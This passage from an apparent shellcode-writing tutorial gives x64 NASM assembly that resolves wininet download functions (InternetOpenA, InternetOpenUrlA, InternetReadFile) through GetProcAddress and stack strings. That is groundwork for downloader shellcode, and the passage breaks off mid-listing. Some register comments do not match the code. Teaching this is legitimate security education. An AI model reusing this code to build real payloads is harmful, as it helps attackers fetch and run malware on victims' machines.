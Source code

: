 ```nasm

; Prepare arguments for GetProcAddress to locate InternetOpenA
    mov rcx, rdi                    ; RCX = handle to wininet.dll (first argument)
    mov rax, 0x909090416E65704F         ; Load "OpenA" into RAX
    shl rax, 0x18                    ; 0000000041786F00
    shr rax, 0x18                    ; 000000000041786F
    push rax
    mov rax, 0x74656E7265746E49     ; Load "Internet" into RAX                  
    push rax
    mov rdx, rsp                    ; RDX points to "InternetOpenA" (second argument)
    sub rsp, 0x30
    mov rax, [rsp + 11*8]
    mov rsi, rax                   ; save GetProcAddress for later
    call rax                       ; Call GetProcAddress
    add rsp, 0x30
    mov r15, rax                    ; store InternetOpenA    

;****************************************************************
; store the wininet address and internetopenA in rdi and r15 registers, respectively
;rdi = wininet.dll
;r15 = InternetOpenA
;****************************************************************
```

The remainder of the code I'm just going to paste here and let you walk through it as your homework assignment 😸 It's a lot to explain and I'd prefer to stick with my video series to cover the remainder of code versus typing out the explanation for each aspect of the remaining code.  I do still offer up some light comments throughout:

```nasm
 ;Prepare arguments for GetProcAddress to locate InternetOpenUrlA
    xor rax, rax
    push rax
    mov rcx, rdi                    ; RCX = handle to wininet.dll (first argument)
    mov rax, 0x416C72556E65704F         ; Load "OpenUrlA" into RAX
    push rax
    mov rax, 0x74656E7265746E49     ; Load "Internet" into RAX                  
    push rax
    mov rdx, rsp                    ; RDX points to "InternetOpenUrlA" (second argument)
    sub rsp, 0x38
    call rsi              ; Call GetProcAddress
    add rsp, 0x30
    mov r14, rax                    ; store InternetOpenUrlA    

; Prepare arguments for GetProcAddress to locate InternetReadFile
    mov rcx, rdi                    ; RCX = handle to wininet.dll (first argument)
    xor rax, rax 
    push rax
    mov rax, 0x656C694664616552         ; Load "ReadFile" into RAX
    push rax
    mov rax, 0x74656E7265746E49     ; Load "Internet" into RAX                  
    push rax
    mov rdx, rsp                    ; RDX points to "InternetReadFile" (second argument)
    sub rsp, 0x38
    call rsi                        ; Call GetProcAddress
    add rsp, 0x30
    mov r13, rax                    ; store InternetReadFile    

; Prepare arguments for GetProcAddress to locate InternetCloseHandle
    mov rcx, rdi                    ; RCX = handle to wininet.dll (first argument)
    mov eax, 0x90656C64
    shl eax, 0x8
    shr eax, 0x8
    push rax
```
